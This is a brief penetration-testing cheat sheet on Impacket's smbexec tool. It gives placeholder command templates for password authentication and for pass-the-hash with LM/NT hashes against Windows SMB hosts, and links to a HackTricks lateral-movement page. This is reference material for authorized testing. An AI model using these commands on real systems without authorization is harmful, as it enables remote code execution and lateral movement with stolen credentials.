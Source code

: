 # Impacket

- **Authenticate via impacket script with smbexec**

`$ smbexec <username>:<password>@<IP> [-codecs <codec>]`

- **Pass the Hash**

```
$ smbexec <username>@<IP> -hashes <LM>:<NT>

$ smbexec <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)